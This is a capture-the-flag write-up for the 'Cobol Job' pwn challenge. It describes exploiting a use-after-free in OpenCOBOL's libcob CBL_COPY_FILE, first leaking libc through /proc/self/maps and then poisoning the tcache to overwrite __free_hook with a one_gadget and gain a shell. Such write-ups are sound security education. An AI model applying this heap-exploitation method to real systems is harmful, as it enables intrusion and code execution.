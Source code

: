 # The Cobol Job
```
2021          1 Episode

https://www.imdb.com/title/tt5295894/ Update: The "sketchy code" mentioned in a comment is not relevant to the solution.

Director: panda
Cast: kylar, nneonneo
Genre: spwnable

Episodes
1 Cold Open   130 points
    cobol.pwni.ng 3083
```


## Overview

This challenge allowed a user to create, open, read, write, close, and copy files inside of a container. Permissions were set in the container so that this challenge wasn't as simple as reading the flag file. The goal was to gain shell access and execute the setuid bit binary, `/freader`, to obtain the flag.

Our solution to this challenge can be broken up into three steps:
* Obtaining libc base from `/proc/self/maps`
* Copy a file to trigger use-after-free to overwrite tcache entry with `__free_hook`
* Write one_gadget to `__free_hook` and trigger a free to obtain a system shell


## Libc leak

We can leak segment mappings by reading from `/proc/self/maps`, however, we are not able to read directly from the file as it will trigger a `O_RDWR` and fail.  We can instead copy the `/proc/self/maps` file to `/dev/stdout` to read the segment mapping.

```python
do_copy("/proc/self/maps", "/dev/stdout")
```


## Use-After-Free

We eventually found a use-after-free vulnerability in `libcob` inside of the copy file function, `CBL_COPY_FILE()`.  On line 4691 of `fileio.c`, it retrieves an allocation, `fn1`, from `cob_str_from_fld()`. On line 4698, the pointer is passed to `free()`. Then on line 4710, it triggers the UAF by reading the source file's contents into it.

```c
fn1 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[0]);
...
free (fn1);
...
while ((i = read (fd1, fn1, sizeof(fn1))) > 0) {
...
}
```

Source reference: https://github.com/cooljeanius/open-cobol/blob/6391bcc51b26672d482e768cafc69d16a12036d5/libcob/fileio.c#L4710
<details>
  <summary>CBL_COPY_FILE() function</summary>

```c
int
CBL_COPY_FILE (unsigned char *fname1, unsigned char *fname2)
{
	char	*fn1;
	char	*fn2;
#ifdef	O_BINARY
	int	flag = O_BINARY;
#else
	int	flag = 0;
#endif
	int	ret;
	int	i;
	int	fd1, fd2;

	COB_CHK_PARMS (CBL_COPY_FILE, 2);

	if (!cob_current_module->cob_procedure_parameters[0]) {
		return -1;
	}
	if (!cob_current_module->cob_procedure_parameters[1]) {
		return -1;
	}
	fn1 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[0]);
	flag |= O_RDONLY;
	fd1 = open (fn1, flag, 0);
	if (fd1 < 0) {
		free (fn1);
		return -1;
	}
	free (fn1);
	fn2 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[1]);
	flag &= ~O_RDONLY;
	flag |= O_CREAT | O_TRUNC | O_WRONLY;
	fd2 = open (fn2, flag, 0660);
	if (fd2 < 0) {
		close (fd1);
		free (fn2);
		return -1;
	}
	free (fn2);
	ret = 0;
	while ((i = read (fd1, fn1, sizeof(fn1))) > 0) {
		if (write (fd2, fn1, (size_t)i) < 0) {
			ret = -1;
			break;
		}
	}
	close (fd1);
	close (fd2);
	return ret;
}
```

</details>


## Modifying Tcache

The freed value above will be pushed into a tcache bin if that tcache bin is not full.  We can control which tcache bin is used here through the size of the source's filename, as the same buffer for the source's filename is also used for the source's contents.

We created and opened a file with a filename length of 0x30 with some arbitrary file size that differs.  The length of 0x30 is used so we fall into the 0x40 size tcache bin. We then wrote the address of `__free_hook` into the file such that it would overwrite the freed memory's forward and back pointers.  We then copy this file with a new file with a different filename size.  This will allocate the first filename, load it into the 0x40 tcache by freeing it, and then set the `__free_hook` address as the chunk's forward and back pointers.  This will manipulate the 0x40 tcache bin such that the 2nd 0x40 allocation request will return the address to `__free_hook`.  The next 0x40 allocation will return the freed address.

The 0x40 tcache bin will now look something like this:
```c
0x40 [  3]: 0x559497863700 —▸ 0x7f994e3368d8 (__free_hook-16) —▸ 0x7f994e9fd340 ◂— 0x7f994e9fd340
```

We then created and opened a new file with some other filename length and a file size of 0x38 for the 0x40 bin.  The create will pop off the 1st 0x40 entry and the open will pop off the 2nd 0x40 entry, `__free_hook`, into a data buffer.  We then write into this buffer by writing to the newly open file the magic one_gadget.  We then close this file to trigger a call to `free()` and in turn jumping to our one_gadget value in `__free_hook`.  We ran `/freader` to obtain the flag.

```
[+] Opening connection to cobol.pwni.ng on port 3083: Done
elf_base: 0x560792499000
heap_base: 0x5607945f9000
libc_base: 0x7f3a5e452000
Run `/freader` for flag
[*] Switching to interactive mode
$ /freader
PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}
```
